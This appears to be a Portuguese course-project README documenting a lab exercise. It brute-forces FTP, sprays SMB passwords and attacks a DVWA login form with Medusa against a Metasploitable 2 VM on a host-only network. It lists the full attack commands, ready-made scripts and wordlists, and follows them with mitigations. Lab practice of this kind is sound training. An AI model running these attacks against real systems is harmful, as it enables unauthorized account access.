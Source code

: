 # Projeto de Segurança: Ataques de Força Bruta com Kali Linux e Medusa

## Introdução
Este projeto foi desenvolvido como parte do curso de Segurança da Informação da DIO, com o objetivo de explorar técnicas de ataques de força bruta em ambientes controlados, utilizando **Kali Linux**, **Medusa** e **Metasploitable 2**. O foco é aprender sobre segurança ofensiva e práticas de mitigação.

## Configuração do Ambiente

### Ferramentas Utilizadas
- **VirtualBox**: Versão 7.0
- **Kali Linux**: Versão 2025.1
- **Metasploitable 2**: Ambiente vulnerável para testes

### Configuração da Rede
- **Tipo de Rede**: Host-Only (`192.168.56.0/24`)
- **Passos**:
  1. Instalação do VirtualBox e criação da rede host-only.
  2. Configuração das VMs Kali Linux e Metasploitable 2.
  3. Verificação de conectividade com o comando:
     ```bash
     ping 192.168.56.101
     ```

## Configuração e Testes

### 1. Criação de Wordlists
Para os testes, criamos wordlists simples manualmente. Em cenários reais, recomenda-se usar wordlists mais robustas disponíveis na internet.

- **Usuários** (`users.txt`):
  ```bash
  echo -e "admin\nadministrador\nuser\nmsfadmin\nguest" > users.txt
  ```
- **Senhas** (`passwords.txt`):
  ```bash
  echo -e "password\nadmin\n123456\n12345678\nwelcome\nwelcome123\nmsfadmin\nqwerty123" > passwords.txt
  ```
- **Verificação**:
  ```bash
  less users.txt
  less passwords.txt
  ```
- **Observação**: O `\n` é usado para quebra de linha. Essas wordlists serão utilizadas em todos os testes.

### 2. Escaneamento de Portas com Nmap
Antes dos ataques, usamos o **Nmap** para listar portas abertas e versões dos serviços no Metasploitable 2:
```bash
nmap -sV -p 21,22,139,443,445,80,8080 192.168.56.101
```
- **Observação**: O Nmap suporta vários parâmetros, como faixas de portas e IPs, permitindo exploração detalhada.

### 3. Realização dos Ataques

#### Ataque 1: Servidor FTP
- **Comando**:
  ```bash
  medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 6
  ```
- **Descrição**: Tentativa de força bruta no serviço FTP com 6 threads (`-t 6`) para maior eficiência.
- **Resultado**: Credenciais válidas (ex.: `msfadmin:msfadmin`).
- **Captura de Tela**: `/images/screenshot_ftp_success.png`.

#### Ataque 2: Servidor SMB
- **Enumeração de Usuários**:
  ```bash
  enum4linux -U 192.168.56.101 > users.txt
  ```
  - Este comando enumera usuários SMB, que podem ser usados para atualizar a wordlist `users.txt`.
- **Ataque com Medusa**:
  ```bash
  medusa -h 192.168.56.101 -U users.txt -p password -M smbnt
  ```
- **Descrição**: Password spraying com a senha comum `password` para todos os usuários.
- **Resultado**: Credenciais válidas (ex.: `msfadmin:password`).
- **Captura de Tela**: `/images/screenshot_smb_enum.png`.

#### Ataque 3: DVWA (Formulário Web)
- **Comando**:
  ```bash
  medusa -h 192.168.56.101 -u admin -P passwords.txt -M http -m DIR:/dvwa -m FORM:login.php -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login"
  ```
- **Descrição**: Ataque de força bruta no formulário de login do DVWA. O formulário HTML deve ser inspecionado para ajustar os parâmetros (`username`, `password`, botão `Login`).
- **Resultado**: Credenciais válidas (ex.: `admin:password`).
- **Captura de Tela**: `/images/screenshot_dvwa_login.png`.
- **Observação**: Consulte o código-fonte do formulário para garantir que os parâmetros estejam corretos.

## Medidas de Mitigação
- **Senhas Fortes**: Use senhas com 12+ caracteres, combinando letras, números e símbolos.
- **Limitação de Tentativas**: Configure bloqueio após 3-5 tentativas falhas (ex.: Fail2Ban).
- **Firewall**: Restrinja portas desnecessárias (ex.: `iptables -A INPUT -p tcp --dport 21 -j DROP`).
- **Protocolos Seguros**: Substitua FTP por SFTP e desative contas SMB padrão.
- **Monitoramento**: Use sistemas de detecção de intrusão (ex.: Snort).
- **Atualizações**: Mantenha sistemas e serviços atualizados.

## Estrutura do Repositório
```
meu-projeto-seguranca/
├── README.md
├── wordlists/
│   ├── users.txt
│   ├── passwords.txt
├── scripts/
│   ├── ftp_bruteforce.sh
│   ├── smb_spray.sh
│   ├── dvwa_bruteforce.sh
├── images/
│   ├── screenshot_ftp_success.png
│   ├── screenshot_smb_enum.png
│   ├── screenshot_dvwa_login.png
```

### Scripts
- `ftp_bruteforce.sh`:
  ```bash
  #!/bin/bash
  medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords.txt -M ftp -t 6
  ```
- `smb_spray.sh`:
  ```bash
  #!/bin/bash
  enum4linux -U 192.168.56.101 > wordlists/users.txt
  medusa -h 192.168.56.101 -U wordlists/users.txt -p password -M smbnt
  ```
- `dvwa_bruteforce.sh`:
  ```bash
  #!/bin/bash
  medusa -h 192.168.56.101 -u admin -P wordlists/passwords.txt -M http -m DIR:/dvwa -m FORM:login.php -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login"
  ```

Torne os scripts executáveis:
```bash
chmod +x scripts/*.sh
```

## Como Executar
1. Clone o repositório:
   ```bash
   git clone https://github.com/SEU_USUARIO/meu-projeto-seguranca.git
   ```
2. Configure as VMs (Kali Linux e Metasploitable 2) conforme descrito.
3. Execute os scripts em `/scripts/` ou os comandos listados.

## Lições Aprendidas
- A importância de wordlists bem elaboradas para ataques de força bruta.
- A necessidade de configurar ambientes de teste isolados (rede host-only).
- A relevância de inspecionar formulários HTML para ataques web.
- A importância de práticas de segurança para proteger sistemas reais.

## Referências
- Kali Linux: https://www.kali.org/
- Metasploitable 2: https://sourceforge.net/projects/metasploitable/
- Medusa: http://foofus.net/goons/jmk/medusa/medusa.html
- DVWA: https://github.com/digininja/DVWA
- Nmap: https://nmap.org/
- Enum4linux: https://github.com/CiscoCXSecurity/enum4linux

## Autor
- **Nome**: [Seu Nome]
- **Data**: 17 de Outubro de 2025
- **Curso**: DIO - Segurança da Informação